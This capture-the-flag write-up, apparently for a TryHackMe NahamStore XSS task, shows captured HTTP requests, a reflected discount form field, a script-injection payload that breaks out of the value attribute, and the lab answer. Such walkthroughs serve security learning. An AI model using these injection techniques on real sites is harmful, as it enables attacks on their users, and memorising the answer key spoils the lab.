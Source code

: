 <h1 align=center>Cross site scripting attack/XSS</h1>

# TASK 8
## What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

#### to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

## Request

```
POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12
```


### notice on the http request start line and body
```
id=2
add_to_basket=1
discount=12
```


### then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

``` 
GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1 
```

### and it also refleted back on the page 
``` 
 <form method="post">
       <input type="hidden" name="add_to_basket" value="1">
       <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
       <input type="submit" class="btn btn-success" value="Add To basket">
       <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
 </form>
 ```

### notice on the ```"name="discount" value="12">"```

### if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

### first it will close the value parameter using double quote(") then the code will execute.

# look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

```answer = discount```
 
 # burp
 ![burp](https://user-images.githubusercontent.com/108541991/200171153-be5e2dc1-e88e-4868-a4b1-94d4a14c320f.jpg)

 # boom! xss
 
 ![xss2](https://user-images.githubusercontent.com/108541991/200171224-d5604065-9e6c-41d1-bbe1-9d829d77e320.jpg)

 
 
